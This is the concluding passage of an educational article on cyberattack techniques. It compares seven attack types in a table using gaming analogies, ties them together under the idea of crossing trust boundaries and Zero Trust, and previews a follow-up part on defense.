Summarized to compare 7 attack techniques covered so far at a glance.

| Technique | Target | Game Analogy | Tech Difficulty | Risk | Detection Difficulty |
|------|---------|----------|-----------|--------|-----------|
| SQL Injection | Database | Chat command injection | ⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐ |
| XSS | User Browser | Fake HUD insertion | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| Buffer Overflow | Memory | Inventory→Stats overwrite | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| MitM | Network Comm | Voice chat eavesdrop+manipulate | ⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| DDoS | Server/Network | 1 million bots concurrent login | ⭐⭐ | ⭐⭐⭐ | ⭐ |
| Social Engineering | Human | In-game scam | ⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| Zero-day | Unpatched SW | Launch day invincible bug | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |

Two points to note in this table. First, **Social Engineering with lowest technical difficulty has highest risk and detection difficulty**. This reflects the fact that the weakest link in security is always human. Second, **techniques with high technical difficulty (Buffer Overflow, Zero-day) are also hard to detect**. As high technology is required, defense side also needs high technology.

---

## Conclusion

### One Pattern Penetrating All Attacks

Looking back at 7 techniques covered in this article, one pattern penetrating all attacks is visible. It is **"Crossing the Trust Boundary"**.

- **SQL Injection**: Boundary of SQL query and user input. System trusted user input to be "data", but attacker put "code".
- **XSS**: Boundary of server content and user script. Browser trusted all scripts on page to be of that site, but attacker's script was mixed.
- **Buffer Overflow**: Boundary of data area and code area. Program trusted only data to enter buffer, but attacker put data modifying execution flow.
- **MitM**: Trust boundary of sender and receiver. Two parties trusted they are communicating directly, but attacker intervened in middle.
- **DDoS**: Boundary of normal traffic and malicious traffic. Server trusted incoming requests to be of normal users, but most were bot traffic.
- **Social Engineering**: Boundary of trustworthy person and attacker. Person trusted counterpart to be exactly who they claim, but was actually disguised attacker.
- **Zero-day**: Boundary of known and unknown. System trusted all known vulnerabilities were patched, but unknown vulnerability still existed.

Essence of security eventually boils down to principle **"Trust, but verify"**. And modern security paradigm **Zero Trust** goes one step further to **"Never trust, always verify"**.

### Part 2 Preview

Knowing attack, now it's time to know defense. Part 2 **"Art of Shield"** covers from working principle of game anti-cheat systems to core technologies of enterprise security, and new threats and defense strategies in AI era. Knowing enemy's weapons, let's make shield against them.
